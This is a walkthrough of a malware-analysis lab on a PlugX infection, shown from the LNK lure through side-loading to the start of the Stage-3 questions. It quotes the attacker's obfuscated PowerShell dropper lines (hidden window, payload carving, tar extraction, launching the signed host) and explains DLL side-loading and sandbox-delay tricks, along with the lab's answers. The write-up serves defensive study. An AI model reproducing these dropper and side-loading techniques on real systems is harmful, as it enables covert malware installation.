# PlugX: MalOps Writeup

> **Platform:** MalOps (Hunt.io) | **Category:** RAT | **Difficulty:** Medium | **Creator:** Leonard Gudovich
> **Tools:** LECmd, IDA Pro, x64dbg-style analysis, HxD, CyberChef, FakeNet-NG | **Questions:** 18 (180 pts)

## Scenario

A suspected PlugX infection starts with a malicious Windows shortcut (`.lnk`). The shortcut uses PowerShell to find an embedded payload inside a decoy archive and deploy further stages. A legitimate, signed executable is then abused to side-load a malicious DLL, which decrypts a Stage-3 payload, persists through the registry, resolves APIs dynamically and talks to a command-and-control (C2) server.

The infection chain I traced:

```
Tin_buon_PGD_Cong_ty.pdf.zip  (lure archive)
  -> Tin_buon_PGD_Cong_ty.pdf.lnk          (shortcut disguised as a PDF)
      -> cmd.exe /c PowerShell -W h ...     (hidden launcher)
          -> carve bytes 975.. (7,726,592 bytes) -> aqdk.cp
              -> tar -xvf -> IFIR-7R-I2R8\
                  FoxitUpdater.exe  (signed host)
                  plugins\phc.dll   (malicious side-loaded DLL)
                  plugins\phc.xml   (XOR-encrypted Stage-3, key 0xB5)
                      -> persistence (HKCU Run) + C2 over HTTPS
```

## Table of contents

- [Methodology and tooling](#methodology-and-tooling)
- [Core concepts](#core-concepts)
- [Stage 1: LNK and PowerShell (Q1 to Q6)](#q1--actual-file-extension)
- [Stage 2: side-loading (Q7 to Q9)](#q7--the-signed-executable)
- [Stage 3 loader DLL (Q10 to Q15)](#q10--stalling-loop-mitre-technique)
- [Persistence and C2 (Q16 to Q18)](#q16--registry-persistence)
- [Attack summary](#attack-summary)
- [Answer summary](#answer-summary)
- [IOCs and detection ideas](#iocs-and-detection-ideas)

---

## Methodology and tooling

1. **Static triage of the lure.** Check the real file type, then parse the LNK with LECmd to read the full command line.
2. **Reproduce the carve safely.** Rebuild the Stage-2 file from the offset and length found in the script, list it with `tar -tvf` before extracting.
3. **Inspect the extracted trio.** Signed EXE, DLL and data file: exports, strings, and what the host loads.
4. **Reverse the DLL in IDA.** Delay loop, dynamic API resolver, then identify the encrypted blob.
5. **Decrypt and analyze Stage-3.** XOR with the recovered key, carve the PE, search strings and imports.
6. **Confirm C2 at runtime** with FakeNet-NG (all in an isolated VM, network simulated).

> **Tooling note.** The LECmd folder from GitHub (`LECmd-master`) contains only source (`.sln`, `.saproj`, `README.md`), not `LECmd.exe`. I used the compiled release build instead.
>
> 

---

## Core concepts

**LNK droppers.** A shortcut can run any program with any arguments, so it works as a launcher with no executable attached. Windows hides the `.lnk` extension even when extensions are shown, and the author can pick a PDF icon. A "PDF" whose Type is `Shortcut` and whose size is a few KB is a red flag.

**PowerShell abbreviations.** PowerShell accepts any unambiguous prefix for parameters and values, so `-WindowStyle Hidden` can be written `-W h`. Attackers also mix case (`PoweRshEll`) and split strings (`'Writ'+'EAlLb'+'ytEs'`) to dodge simple string rules.

**Payload carving.** The LNK reads its own delivery ZIP into a byte array and writes a slice `[start..(length+start-1)]` to disk. PowerShell's `..` range is inclusive, hence the `-1`. Offset plus length is a complete carve recipe.

**DLL side-loading (MITRE T1574.002).** A signed vendor EXE loads a DLL by name; Windows checks the EXE's own folder first, so an attacker DLL placed beside it runs inside the trusted process. The signature covers only the EXE.

**API hashing (MITRE T1027.007).** Instead of importing `VirtualAlloc`, malware stores a hash per API and uses a resolver that walks the PEB, loaded modules and export tables, hashing names until one matches. The resolver is recognizable by what it does: `fs:30h` (PEB), the loader list, and many callers passing constants.

**Single-byte XOR.** If a file is mostly one repeated byte, that byte is the key (`0x00 ^ key = key`, and compiled code is full of zero bytes). A known-plaintext check confirms it: after XOR, a PE header and DOS stub should appear.

---

## Q1 · Actual file extension

**Question:** What is the actual file extension of the provided malware sample?

**Approach.** The sample is named like a PDF (`Tin_buồn_PGĐ_Công_ty.pdf`) and sits in a folder also named `...pdf`. Inside, the Type column says **Shortcut**, the size is about 3 KB, and the Properties dialog reports `Shortcut (.lnk)` with a Windows Command Processor description.







**Answer: `lnk`**

---

## Q2 · PowerShell flag that hides the window

**Question:** Which PowerShell flag keeps the console window hidden?

**Approach.** The right-click Properties dialog truncates long arguments, so I parsed the file with LECmd and read the `Arguments` line in its console log:

```
LECmd.exe -f "Tin_buồn_PGĐ_Công_ty.pdf.lnk" --csv .
Relative Path: ..\..\..\..\..\..\Windows\System32\cmd.exe
Arguments: /c  PoweRshEll -W h "; [SyStem.IO.File]::OpenReAd($kbonw); ...
```



The LNK launches `cmd.exe /c`, which runs PowerShell. The shortcut itself uses `SwNormal`; the hiding happens inside the command through `-W h` (`-WindowStyle Hidden`). The log also warns about extra or damaged data blocks, a hint that the LNK carries more than a normal shortcut.

**Answer: `-W h`**

---

## Q3 · ZIP search mask

**Question:** What exact wildcard mask does the script use to find the ZIP?

**Approach.** The script searches the user's home folder for the archive it was delivered in:

```powershell
lS -Pa $Home -Re -in 'Tin_buo??n_PG?_Co?ng_ty.pdf.zip'
```

`-Re -in` expands to `-Recurse -Include`. In PowerShell wildcards `?` matches exactly one character. The real name is Vietnamese, so the attacker replaced each non-ASCII character position with `?` to avoid encoding problems inside the LNK.



**Answer: `Tin_buo??n_PG?_Co?ng_ty.pdf.zip`**

---

## Q4 · Byte offset where extraction begins

**Question:** At what byte offset does the payload extraction begin?

**Approach.** The script reads the ZIP into a byte array, then sets the start index:

```powershell
$rslf=975;
[SyStem.IO.FIle]::$uoodl($Home+'\aqdk.cp', $obbqvvv[$rslf..(7726592+$rslf-1)])
```

`$uoodl` is `'Writ'+'EAlLb'+'ytEs'`, i.e. `WriteAllBytes`.



I reproduced the carve in the VM (safe, nothing executed). The carved file is exactly 7,726,592 bytes.



**Answer: `975`**

---

## Q5 · Number of bytes extracted

**Question:** How many bytes are extracted to create the Stage-2 payload?

**Approach.** The length is in the same slice expression: `$rslf..(7726592+$rslf-1)`. With an inclusive range, the count is `(7726592+975-1) - 975 + 1 = 7,726,592`.



My carve printed `7726592` for the output size (see the screenshot in Q4). One observation: the ZIP is 7,727,670 bytes, while `975 + 7,726,592 = 7,727,567`, so 103 bytes remain after the carved region. I did not verify them, but a ZIP's central directory and end-of-directory record would fit that.

**Answer: `7726592`**

---

## Q6 · Directory created by `tar`

**Question:** After `tar` extracts the archive, which directory is created?

**Approach.** The script ends with:

```powershell
tAR -xvf $Home\aqdk.cp -C $Home; Sleep -Seconds 4; powershell $Home\IFIR-7R-I2R8\FoxitUpdater.exe;
```

`tar` ships with Windows 10+, so it is a living-off-the-land binary, and it detects the format from content, so the odd `.cp` extension does not matter. The top-level folder name comes from inside the archive. Listing it (`tar -tvf`) without extracting confirms it:



```
IFIR-7R-I2R8/
IFIR-7R-I2R8/FoxitUpdater.exe      7199216
IFIR-7R-I2R8/plugins/
IFIR-7R-I2R8/plugins/phc.dll        140288
IFIR-7R-I2R8/plugins/phc.xml        383404
```

(Same screenshot as Q4.) `Sleep -Seconds 4` just gives extraction time to finish.

**Answer: `IFIR-7R-I2R8`**

---

## Q7 · The signed executable

**Question:** Which legitimate, digitally signed binary does the attacker abuse?

**Approach.** The last command in the arguments launches it from the user-profile folder, not from `Program Files`:



For orientation, here is the complete argument string in one view:



A signed Foxit updater running from `%USERPROFILE%\IFIR-7R-I2R8\` next to unfamiliar files is the side-loading pattern.

**Answer: `FoxitUpdater.exe`**

---

## Q8 · DLL loaded from the `plugins` directory

**Question:** What DLL does `FoxitUpdater.exe` dynamically load from `plugins`?

**Approach.** The archive listing shows only two files in `plugins\`: `phc.dll` and `phc.xml`. To tie the DLL to the EXE, I searched the EXE's strings:

```powershell
strings64 -nobanner -n 6 .\FoxitUpdater.exe | Select-String "plugins|phc|\.dll|LoadLibrary|GetProcAddress"
```



The EXE contains `\plugins\phc.dll`, and also `\plugins\ConnectedPDFLogin.dll`, a name that is not shipped in the archive. That name looks like a plugin of the real Foxit product. Only `phc.dll` was supplied, which is what makes the hijack work.





**Answer: `phc.dll`**

---

## Q9 · Exported function used by the malware

**Question:** Which exported function from `phc.dll` is used during execution?

**Approach.** I dumped the export table with `pefile`:

```
0x100012d7 CreateCheckLicense   18
0x100012d4 DestroyCheckLicense  19
```



The answer mask has 18 characters, and `CreateCheckLicense` is the only 18-character export (`DestroyCheckLicense` is 19). IDA's entry-point list shows the same two exports plus `DllEntryPoint` at `0x1000352A`.



The two exports sit only 3 bytes apart, so `DestroyCheckLicense` can hold at most a tiny stub. Together they impersonate a Foxit license-check plugin that the signed host expects. The mask length was my main filter here; I did not capture the host's `GetProcAddress` call for this name.

**Answer: `CreateCheckLicense`**

---

## Q10 · Stalling loop: MITRE technique

**Question:** Which MITRE ATT&CK technique ID describes the computationally intensive stall loop?

**Approach.** In IDA, `CreateCheckLicense` is a short routine that spins in a nested loop with no API calls, then calls `sub_1000113F`:



```asm
mov  ebx, 3E8h        ; inner counter = 1,000
...
dec  ebx / jnz        ; inner loop
inc  esi
cmp  esi, 2710h       ; outer counter = 10,000
jnz  loc_100012EA
```

That is about 1,000 × 10,000 = 10,000,000 iterations of pure arithmetic. The `imul` / `sar` / `imul 0F4240h` sequence looks like a compiler-generated modulo by 1,000,000 whose result is never used, which is junk work to burn CPU time. A busy-wait has no `Sleep` call for a sandbox to hook or fast-forward. It maps to **T1678 (Delay Execution)**.

`sub_1000113F`, called right after the loop, is a decoy: toy RSA-style math and `printf`-style output (`F(%d) = %lld`) with no file, memory, registry or network activity. Dropper authors pad DLLs like this so a quick look says "boring program". `DllMain` itself is empty and just returns true, so nothing starts at load time.

**Answer: `T1678`**

---

## Q11 · Encrypted container for Stage-3

**Question:** Which file is the encrypted container for the Stage-3 payload?

**Approach.** Of the three files in the drop folder, only `phc.xml` fits a container: same base name as the DLL, 383,404 bytes, and Explorer treats it as an Edge document. Opened in Notepad++ it is not XML at all, just binary noise:

